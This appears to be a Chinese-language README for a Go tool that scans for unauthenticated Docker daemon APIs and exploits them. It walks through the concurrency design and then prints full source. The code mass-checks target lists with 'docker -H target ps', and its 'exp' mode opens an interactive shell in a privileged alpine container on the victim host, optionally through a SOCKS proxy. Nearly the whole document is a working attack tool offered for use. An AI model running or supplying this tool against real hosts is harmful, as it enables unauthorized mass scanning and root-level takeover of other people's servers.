

# docker-daemon-api-rce

>[!Note]
>
>项目：[docker-daemon-api-rce-wjlin0](https://github.com/wjlin0/docker-daemon-api-rce)

## 知识点

### 并发

> 利用Goroutine 快速实现大量并发

```go
c1 := make(chan map[interface{}]interface{}, thread)
for _, t := range targets {
    //利用 go 关键字 开启 gorountine 
    //wg.Add(1)
    go check(t, c1)
}
for _, _ = range targets {
    // 从通道内取值
    b := <-c1
    fmt.Printf("%v\n", b)
}
//wg.Wait()
```

```go
func check(t string, ch chan map[interface{}]interface{}) {
fmt.Println("开始检测目标 ", t)
	b := func() (b map[interface{}]interface{}) {
		b = map[interface{}]interface{}{}
		cmd := exec.Command("docker", "-H", t, "ps")
		checkSocksProxy(cmd)
		//fmt.Println(cmd)
		out, err := cmd.CombinedOutput()
		if err != nil {
			b[t] = false
			return b
		}
		if strings.Contains(string(out), "CONTAINER") && strings.Contains(string(out), "ID") && strings.Contains(string(out), "IMAGE") && strings.Contains(string(out), "COMMAND") && strings.Contains(string(out), "CREATED") {
			b[t] = true
			return b
		} else {
			b[t] = true
			return b
		}
	}()
   // 将结果传入通道ch中
	ch <- b
}
```

### 命令行交互式输入输出

```go
cmd := exec.Command("docker", "-H", t, "run", "-it", "--rm", "--privileged", "alpine", "/bin/sh")
checkSocksProxy(cmd)
cmd.Stdin = os.Stdin
cmd.Stdout = os.Stdout
cmd.Stderr = os.Stderr
err := cmd.Start()
if err != nil {
    return
}
err = cmd.Wait()
if err != nil {
    fmt.Println("攻击利用失败")
    return
}
```

### go 给每个cmd设置环境变量

```go
var cmdEnv []string
cmdEnv = append(cmdEnv, "ALL_PROXY="+proxy)
cmd.Env = cmdEnv
```

## 代码

```go
package main

import (
	"bufio"
	"flag"
	"fmt"
	"io"
	"os"
	"os/exec"
	"regexp"
	"strings"
)

var target string
var targets []string
var list string
var proxy string
var mod string
var thread int

//var wg sync.WaitGroup

func main() {
	Init()
	Banner()
	flag.Parse()
	checkArgs()
	checkDocker()
	if proxy != "" {
		fmt.Println("设置代理: " + proxy)
	}
	switch mod {
	case "check":
		c1 := make(chan map[interface{}]interface{}, thread)
		for _, t := range targets {
			//wg.Add(1)
			go check(t, c1)
		}
		for _, _ = range targets {
			b := <-c1
			fmt.Printf("%v\n", b)
		}
		//wg.Wait()
	case "exp":
		exp()
	default:
		os.Exit(-1)
	}
}

func checkDocker() {
	cmd := exec.Command("docker", "--version")
	out, err := cmd.CombinedOutput()
	if err != nil {
		fmt.Println("检查Docker是否存在时，出现错误")
		panic(err)
	}
	if !strings.Contains(string(out), "Docker version") {
		fmt.Println("docker未启动 或 不存在docker，请检查")
		os.Exit(-1)
	}
}
func Init() {
	flag.StringVar(&target, "target", "", "目标")
	flag.StringVar(&list, "list", "", "目标列表")
	flag.StringVar(&proxy, "proxy", "", "代理")
	flag.IntVar(&thread, "thread", 20, "并发量（仅在check模式下生效）")
	flag.StringVar(&mod, "mod", "check", "模式（check|exp）")
}
func Banner() {

	fmt.Println(`
           __.__  .__       _______   
__  _  __ |__|  | |__| ____ \   _  \  
\ \/ \/ / |  |  | |  |/    \/  /_\  \ 
 \     /  |  |  |_|  |   |  \  \_/   \
  \/\_/\__|  |____/__|___|  /\_____  /
      \______|            \/       \/ 
        Docker Api 未授权访问 `)
}
func urlHandler(target string) string {
	if strings.HasSuffix(target, "/") { // 去掉后缀 /
		target = strings.TrimSuffix(target, "/")
		//fmt.Println(target)
	}
	if !strings.HasPrefix(target, "tcp") {
		target = "tcp://" + target
	}
	if !strings.HasPrefix(target, "http") {
		target = strings.Replace(target, "http", "tcp", -1)

	}
	if !strings.HasPrefix(target, "https") {
		target = strings.Replace(target, "https", "tcp", -1)

	}
	regIp := regexp.MustCompile(`^[\d\.]+$`)
	if len(regIp.FindAllString(target, -1)) > 0 {
		regPort := regexp.MustCompile(`^(tcp://)?\d+\.\d+\.\d+\.\d+:\d+$`)
		if len(regPort.FindAllString(target, -1)) == 0 {
			target = target + ":80"
		}
	} else {
		regPort := regexp.MustCompile(`^(tcp://)?.+:\d+$`)
		if len(regPort.FindAllString(target, -1)) == 0 {
			target = target + ":80"
		}
	}
	return target
}
func checkArgs() {
	if target != "" {
		targets = append(targets, urlHandler(target))
	}
	if list != "" {
		fmt.Println("正在打开文件")
		filePath := list
		file, err := os.Open(filePath)
		if err != nil {
			fmt.Println("文件打开失败", err)
		}
		defer file.Close()
		//读原来文件的内容，并且显示在终端
		reader := bufio.NewReader(file)
		for {
			target, err := reader.ReadString('\n')
			if err != nil {
				if err == io.EOF {
					if target != "" {
						targets = append(targets, urlHandler(target))
					}
					break
				}
			}
			//fmt.Printf("%#v\n", target)
			target = strings.TrimSpace(target)
			if target == "" {
				continue
			}
			//fmt.Printf("%#v\n", target)
			targets = append(targets, target)
		}
	}

	if targets == nil {
		flag.Usage()
		os.Exit(0)
	}
}
func check(t string, ch chan map[interface{}]interface{}) {
	fmt.Println("开始检测目标 ", t)
	b := func() (b map[interface{}]interface{}) {
		b = map[interface{}]interface{}{}
		cmd := exec.Command("docker", "-H", t, "ps")
		checkSocksProxy(cmd)
		//fmt.Println(cmd)
		out, err := cmd.CombinedOutput()
		if err != nil {
			b[t] = false
			return b
		}
		if strings.Contains(string(out), "CONTAINER") && strings.Contains(string(out), "ID") && strings.Contains(string(out), "IMAGE") && strings.Contains(string(out), "COMMAND") && strings.Contains(string(out), "CREATED") {
			b[t] = true
			return b
		} else {
			b[t] = true
			return b
		}
	}()
	ch <- b
	//wg.Done()
}
func exp() {
	var t string
	var i int
	fmt.Println("请选择攻击目标")
	for i, tar := range targets {
		fmt.Println("目标：", tar, " , ", i)
	}
	if len(targets) == 1 {
		t = targets[0]
	} else {
		_, err := fmt.Scanln(&i)
		if err != nil {
			t = targets[0]
		}
	}
	t = targets[i]
	cmd := exec.Command("docker", "-H", t, "run", "-it", "--rm", "--privileged", "alpine", "/bin/sh")
	checkSocksProxy(cmd)
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	err := cmd.Start()
	if err != nil {
		return
	}
	err = cmd.Wait()
	if err != nil {
		fmt.Println("攻击利用失败")
		return
	}

}
func checkSocksProxy(cmd *exec.Cmd) {
	if proxy == "" {
		return
	}
	proxy = strings.TrimSpace(proxy)
	if strings.HasPrefix(target, "http") {
		fmt.Println("检查是否为socks（4、4a、5）代理")
		os.Exit(-1)
	}

	var cmdEnv []string
	cmdEnv = append(cmdEnv, "ALL_PROXY="+proxy)
	cmd.Env = cmdEnv
}
```

## 运行示例图


